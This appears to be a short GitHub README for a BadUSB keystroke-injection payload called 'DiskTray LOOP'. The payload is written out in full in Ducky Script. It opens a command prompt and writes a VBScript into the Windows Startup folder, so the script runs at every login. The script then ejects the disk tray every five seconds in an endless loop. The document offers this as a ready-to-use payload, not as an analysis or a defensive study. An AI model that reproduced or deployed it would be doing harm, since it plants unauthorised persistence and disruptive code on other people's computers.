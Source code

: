 # DiskTray LOOP (For BadUSBs)
This scripts sets a vbs file into the startup folder that opens the disk tray over and over (Every 5 seconds).

## Code
<pre><code>GUI d
DELAY 300
GUI r
STRING cmd
ENTER
DELAY 200
STRING cd "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
ENTER
STRING copy con DT.vbs && start DT.vbs && exit
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7" )
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL z
</code></pre>

## More information
<a href="https://social.technet.microsoft.com/wiki/contents/articles/5169.vbscript-sendkeys-method.aspx">VBScript - SendKeys Method </a>
